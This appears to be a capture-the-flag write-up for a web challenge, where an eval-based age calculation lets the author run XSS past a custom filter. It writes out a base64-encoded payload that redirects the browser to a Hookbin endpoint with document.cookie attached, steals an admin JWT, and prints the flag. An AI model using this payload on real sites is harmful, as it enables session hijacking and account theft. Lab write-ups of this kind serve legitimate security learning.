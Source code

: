 # Santa Claus

On exploring the site we know that there are routes to submit a site for review, login, signup and apply for a job.

The submit site route just accepts email and password just submits it. Also it says that they won't see it soon so there is no use.

Next in job application route we see there is an option to see employer's view and to submit directly. But on the employer's page we see that they are calculating age from date of birth. Also they are using a custom xss filter to remove unsafe html. But they are using `eval` to calculate age. We can exploit this feautre since we can control the string to be supplied to eval. But we cannot directly steal cookies as there is a xss filter.
On exploring we notice that we can encode our payload to base64 and perform xss.

We can make use of [Hookbin](https://hookbin.com/) to create free endpoint to capture our request.

Now we have to encode our payload

```javascript
document.location = `https://hookb.in/ENDPOINT?c=` + document.cookie;
```

We are using single backticks( \` ) instead of quotations( " ). This is done to ensure that the quotes of `eval` are not escaped in javascript code.

Encode the string using:

```javascript
btoa("document.location=`https://hookb.in/ENDPOINT?c=`+document.cookie");
```

We need to decode this before it has to be executed by `eval`. For that we use:

```javascript
eval(atob("BASE64 ENCODED TEXT"));
```

Now modify the html of date input to `type="text"` and supply the value as:

```javascript
eval(atob("BASE64 ENCODED TEXT")) - 1 - 1;
```

After this we get the message that our application will soon be seen. When we refresh the Hookbin page we notice that we have got the jwt cookie of admin user. We now copy the cookie and visit the site again.  
They say that cookie is hidden in plain sight. Thus on viewing the source we get the flag.

```
pctf_{n3v3r_writ3_y0ur_0wn_fi1t3r5}
```
